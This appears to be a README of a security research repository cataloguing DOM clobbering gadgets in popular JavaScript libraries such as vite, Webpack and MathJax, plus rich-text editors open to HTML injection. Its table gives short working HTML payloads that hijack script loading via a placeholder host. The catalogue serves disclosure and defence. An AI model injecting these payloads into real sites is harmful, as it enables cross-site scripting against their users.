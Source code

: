 # DOM Clobbering Collection

This repository lists client-side libraries that are vulnerable to HTML injection or contain DOM Clobbering gadgets that can result in severe issues like XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [vite](./domc-gadgets/vite.md) | 67.2K | v5.4.5 | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |
| [Webpack](./domc-gadgets/webpack.md) | 64.4K | v5.93.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |
| [astro](./domc-gadgets/astro.md) | 45.7K | v4.5.9 | ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>``` | XSS | TheHulk | N/A | N/A |
| [layui](./domc-gadgets/layui.md) | 29.5K | v2.9.16 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |
| [rollup](./domc-gadgets/rollup.md) | 25.2K | v4.21.3 | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Fixed | 2024-CVE-XXXXX |
| [plausible-analytics](./domc-gadgets/plausible-analytics.md) | 19.7K | v2.1.0 | ```<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">``` | CSRF | TheHulk | Reported | N/A |
| [plotly.js](./domc-gadgets/plotly.js.md) | 16.9K | v2.35.2 | ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>``` | Open Redirection | TheHulk | N/A | N/A |
| [Prism](./domc-gadgets/prism.md) | 12.2K | v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](./domc-gadgets/mathjax2.md) | 10.1K | v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Accepted | N/A |
| [MathJax](./domc-gadgets/mathjax3.md) | 10.1K | v3.2.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Accepted | N/A |
| [tsup](./domc-gadgets/tsup.md) | 8.9K | N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Reported | N/A |
| [rspack](./domc-gadgets/rspack.md) | 8.6K | v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | CVE-2024-XXXXX |
| [Google Closure](./domc-gadgets/google-closure-library.md) | 4.9K | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Accepted | N/A |
| [pagefind](./domc-gadgets/pagefind.md) | 3.3K | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Accepted | CVE-2024-XXXXX |
| [Mavo](./domc-gadgets/mavo.md) | 2.8K | v0.3.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [Stage.js](./domc-gadgets/stage.js.md) | 2.4K | v1-alpha | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [inspire.js](./domc-gadgets/inspire.js.md) | 1.7K | v1.10 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](./domc-gadgets/steal.md) | 1.4K | v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [UMeditor](./domc-gadgets/umeditor.md) | 1.4K | v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>``` | XSS | TheHulk | Reported | N/A |
| [squirt](./domc-gadgets/squirt.md) | 1.2K | v0.0.1 | ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">``` | XSS | TheHulk | Reported | N/A |
| [polyfills](./domc-gadgets/polyfills.md) | 1.1K | v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Reported | N/A |
| [doomcaptcha](./domc-gadgets/doomcaptcha.md) | 1K | latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [AddToAny](./domc-gadgets/addtoany.md) | N/A | N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [Google Client API](./domc-gadgets/google-client-api.md) | N/A | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |

## HTML Injection Vulnerabilities

The following libraries accept user input and output content as `type/html` with certain named attributes (e.g., `id` or `name`) preserved at different levels of capability. Using these libraries may expose web applications to HTML injection risks. Libraries may directly insert user input into the DOM, or the web application may retrieve the user input from the library and then add it to the DOM.

| Library | Stars | Version | Input | Sanitizer | Capability | Status | CVE |
|:-------:|:-----:|:-------:|-------|:---------:|-------------------------|:------:|:---:|
| [mermaid](./html-injection/mermaid.md) | 70.6K | v0.1.4 | Input | DOMPurify | Any named property without collision | N/A | N/A |
| [tui.editor](./html-injection/tui-editor.md) | 17.1K | v3.2.2 | Type | DOMPurify | Any named property without collision  | N/A | N/A |
| [TinyMCE-v5/6/7](./html-injection/tinymce.md) | 14.9K | v7.3.0 | Copy&Paste | DOMPurify | Any named property without collision | N/A | N/A |
| [TinyMCE-v4](./html-injection/tinymce4.md) | 14.9K | v4.9.11 | Copy&Paste | N/A | Any named property | N/A | N/A |
| [editor.md](./html-injection/editor.md.md) | 13.8K | v1.5.0 | Type | N/A | Any named property | N/A | N/A |
| [simplemde](./html-injection/simplemde.md) | 9.9K | v1.11.2 | Type | N/A | Any named property | N/A | N/A |
| [vditor](./html-injection/vditor.md) | 8.3K | v3.10.6 | Type | N/A | Any named property | N/A | N/A |
| [Froala](./html-injection/froala.md) | 5.3K | v4.2.2 | Copy&Paste | DOMPurify | Any `name` attributes | N/A | N/A |
| [SunEditor](./html-injection/sun-editor.md) | 1.7K | v2.47.0 | Copy&Paste | N/A | `a` tag with `id` | N/A | N/A |
| [RichTextEditor](./html-injection/richtexteditor.md) | N/A | Latest | Copy&Paste | N/A | Any named property | N/A | N/A |
